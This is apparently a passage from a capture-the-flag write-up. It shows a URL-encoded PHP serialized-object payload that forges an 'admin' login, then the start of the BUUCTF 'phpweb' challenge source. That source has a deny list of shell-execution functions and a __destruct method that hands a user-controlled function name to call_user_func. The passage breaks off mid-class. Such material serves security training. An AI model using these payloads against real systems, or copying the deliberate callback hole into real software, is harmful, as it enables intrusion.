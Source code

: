 ```php
O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
```

### buuctf - 2020-网鼎杯朱雀组-phpweb

```php
<?php
$disable_fun = array(
    "exec",
    "shell_exec",
    "system",
    "passthru",
    "proc_open",
    "show_source",
    "phpinfo",
    "popen",
    "dl",
    "eval",
    "proc_terminate",
    "touch",
    "escapeshellcmd",
    "escapeshellarg",
    "assert",
    "substr_replace",
    "call_user_func_array",
    "call_user_func",
    "array_filter",
    "array_walk",
    "array_map",
    "registregister_shutdown_function",
    "register_tick_function",
    "filter_var",
    "filter_var_array",
    "uasort",
    "uksort",
    "array_reduce",
    "array_walk",
    "array_walk_recursive",
    "pcntl_exec",
    "fopen",
    "fwrite",
    "file_put_contents"
);
function gettime($func, $p)
{
    $result = call_user_func($func, $p);
    $a = gettype($result);
    if ($a == "string") {
        return $result;
    } else {
        return "";
    }
}
class Test
{
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct()
    {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
```
